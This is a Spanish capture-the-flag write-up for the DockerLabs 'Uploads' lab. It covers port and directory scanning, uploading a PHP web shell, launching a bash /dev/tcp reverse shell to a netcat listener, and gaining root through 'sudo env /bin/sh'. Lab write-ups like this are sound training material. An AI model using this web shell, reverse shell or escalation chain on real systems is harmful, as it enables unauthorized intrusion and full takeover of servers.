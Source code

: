 #Uploads DockerLabs - 12/05/2024
#web - https://dockerlabs.es/#/

Primero hacemos un escaneo de puertos basico hacia la ip que por defecto es la *172.17.0.2*.

```shell
└─$ nmap -sV -sC -n -p- --min-rate 5000 172.17.0.2
===============================================================
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 00:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

```

Vemos que hay un puerto 80 abierto y entramos desde firefox.


Entramos y vemos una pagina web con un apartado para subir archivos.

![Captura de pantalla 2024-05-13 001149](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/289a79e0-f7c1-4cf6-808f-946ab1c4059f)

Realizamos un escaneo de subdominios con gobuster para ver si encontramos algo interesante.

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]

```

Encontramos un subdominio *http://172.17.0.2/uploads/*.
Entramos y podemos ver que es donde se alojan los archivos subidos.

![Captura de pantalla 2024-05-13 002043](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/418a59e7-daa7-4819-b895-376a3286d882)

Creamos un script en formato ".php" con el siguiente contenido

```shell
<?php
	system($_GET['cmd']);
?>
```

Lo subimos y llamamos al archivo con un "?cmd=id" quedando de esta manera:

![Captura de pantalla 2024-05-13 204619](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/7b55fd0a-62eb-4f95-bdbc-cc921362b579)

```shell
http://172.17.0.2/uploads/cmd.php?cmd=id
```

Entramos a "https://www.revshells.com/" en esta web encontramos reverse shells ya generadas y listas para copiar y para cambiar los parametros de una manera sencilla

![Captura de pantalla 2024-05-13 204754](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/0a20f8dd-895e-4ead-8ab9-b8e171bc2423)
![Captura de pantalla 2024-05-13 204807](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/28ff216f-eaf8-4fe3-95ac-4520704adc72)


Ejecutamos netcat con el puento 9001 como puerto de escucha
```shell
nc -lvnp 9001
listening on [any] 9001 ...

```

Ejecutamos la reverse shell de manera en que llamemos al archivo "cmd.php" y le pasasemos los parametros anteriores "?cmd=id" y ahora sustituimos id por bash -c seguido de dos comillas y la reverse shell:
```shell
http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.0.2.15/9001 0>%261" )

```

![Captura de pantalla 2024-05-13 210138](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/853d7ccc-3224-4c5d-8495-0247a5960d9d)

Ahora solo faltaria la escalada de privilegios
Comprobamos los permisos del usuario con:
```shell
sudo -l
```

![Captura de pantalla 2024-05-13 210530](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/449ea752-5a93-4e67-a77e-d306b1111214)

En este caso podemos ver que podemos ejecutar el binario "/usr/bin/env" siendo este usuario root como se puede apreciar y indica que no tiene contraseña entonces prodecedemos a ejecutar este binario:
```shell
sudo env /bin/sh
```

![Captura de pantalla 2024-05-13 210851](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/6006d2f9-c5bf-44da-b6a8-e916850a9d0e)

y ahora realizamos un whoami para saber que usuario somos:
```shell
whoami
```
y podremos comprobar que si que somos el usuario root.
